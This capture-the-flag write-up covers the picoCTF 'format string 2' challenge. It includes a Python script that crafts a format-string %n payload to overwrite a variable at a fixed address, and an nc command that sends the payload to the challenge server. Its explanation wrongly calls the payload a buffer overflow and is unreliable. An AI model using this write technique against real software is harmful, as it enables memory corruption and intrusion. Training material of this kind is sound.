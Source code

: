 # format string 2

```markdown
Tags: `Binary Exploitation` `format_string` `browser_webshell_solvable`
```

## **Description**

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must _change_ data on the stack!

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

## **Solution Strategy**

```python
import struct

ADDRESS = 0x404060

def pad(s):
    return s + b"X" * (1024 - len(s)-16)

exploit = b""
exploit += b"BBBBCCCC"
exploit += b"%" + str(0x67616c66 - len(exploit)).encode() + b"x"
exploit += b"%140$n"
exploit = pad(exploit)

exploit += struct.pack("Q", ADDRESS)

print(pad(exploit).decode('utf-8'))
```

* This script constructs a buffer overflow exploit payload targeting a vulnerable program.
* It defines a constant `ADDRESS` representing the target address where the exploit will attempt to write.
* The `pad` function pads a given byte string to a specific length by adding `'X'` characters to the end until it reaches the desired length.
* The exploit payload (`exploit`) is constructed by concatenating byte strings:
  * Initial padding (`b"BBBBCCCC"`) to reach the return address on the stack.
  * Format string vulnerability payload: It uses a format string vulnerability to write the value `0x67616c66` (which corresponds to the ASCII string `"flag"`) to the address pointed to by the 140th argument on the stack (`b"%140$n"`).
  * Additional padding (`pad(exploit)`) to fill the buffer up to its maximum size (1024 bytes).
  * The target address (`struct.pack("Q", ADDRESS)`) that the exploit payload aims to overwrite with the value specified above.
* Finally, it prints the exploit payload after padding, converting it from bytes to a UTF-8 encoded string for printing purposes.

## Flag

```bash
nc rhea.picoctf.net 52010 < payload
```

<figure><img src="../.gitbook/assets/Pasted image (25).png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
